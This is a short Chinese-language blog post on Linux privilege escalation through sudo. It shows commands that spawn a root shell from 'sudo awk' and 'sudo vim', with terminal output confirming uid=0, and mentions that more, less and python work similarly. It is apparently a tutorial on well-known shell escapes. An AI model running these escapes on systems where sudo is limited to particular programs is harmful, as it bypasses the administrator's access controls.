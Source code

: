 +++
categories = ["Linux"]
date = "2020-04-10"
description = "Linux下利用sudo实现提权"
tags = ["Linux"]
title = "Linux下利用sudo实现提权"
url = "/linux/linux_sudo/"
+++

> sudo 是常用的 Linux 系统命令，允许普通用户执行 root 命令  
> 此时普通用户就可以利用 sudo 来实现提权，使自己拥有 root 权限

1. 利用awk命令 sudo awk 'BEGIN {system("/bin/bash")}'
> ```
> fancy@raspberrypi:~ $ sudo awk 'BEGIN {system("/bin/bash")}'
> [sudo] fancy 的密码：
> root@raspberrypi:/home/fancy# id    //此处已经实现提权
> uid=0(root) gid=0(root) 组=0(root)
> root@raspberrypi:/home/fancy# exit
> exit
> fancy@raspberrypi:~ $ 
> 
> ```

2. 利用vim工具，sudo vim打开后输入命令:!/bin/bash 即可
> ```
> fancy@raspberrypi:~ $ sudo vim
> :!/bin/bash
> root@raspberrypi:/home/fancy# id    //此处实现提权
> uid=0(root) gid=0(root) 组=0(root)
> root@raspberrypi:/home/fancy# exit
> exit
> ```

3. 以上介绍两种最简单的方法，还有很多类似的方法，如more，less命令，python脚本等等都可以
